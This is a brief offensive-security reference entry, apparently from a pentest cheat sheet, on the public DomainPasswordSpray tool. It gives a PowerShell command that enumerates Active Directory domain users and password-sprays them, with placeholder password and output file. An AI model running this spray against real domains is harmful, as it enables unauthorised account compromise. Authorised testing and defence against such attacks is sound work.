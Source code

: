 Enumerates domain users and simultaneously performs a password spraying attack against them. 

```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password <PASS> -OutFile <FILE> -ErrorAction SilentlyContinue
```

https://github.com/dafthack/DomainPasswordSpray
